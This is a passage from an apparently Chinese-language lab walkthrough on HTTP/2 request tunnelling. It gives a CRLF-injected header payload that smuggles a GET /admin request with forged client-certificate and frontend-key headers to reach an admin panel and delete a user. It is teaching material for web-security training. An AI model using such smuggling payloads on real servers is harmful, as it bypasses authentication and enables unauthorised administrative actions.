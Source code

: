 Step 6：随后将请求方法改为 HEAD 并更改头部信息，在其中插入请求路径这样它就可以走私对 admin 面板的请求，包括三个客户端身份验证头，确保按如下方式更新它们的值

```c
#Name
foo: bar\r\n
\r\n
GET /admin HTTP/1.1\r\n
X-SSL-VERIFIED: 1\r\n
X-SSL-CLIENT-CN: administrator\r\n
X-FRONTEND-KEY: 2244638774928226\r\n
\r\n
#Value
xyz
```

![img](assets/1706773318-50507248373c650eef15b699bb1dd0ed.png)

发送请求您会看到收到一个错误响应表示说没有收到足够的字节，这是因为请求资源的内容长度比我们试图读取的隧道响应长，随后更改`:path`伪标头，使其指向返回较短资源的端点，在这种情况下我们可以使用/login，随后在响应中找到删除 carlos 的 URL，然后相应地更新隧道请求中的路径并重新发送完成解题

![img](assets/1706773318-c5b504cdf870907d6d26d52a927bbcbd.png)

## 缓存投毒

### 基本介绍
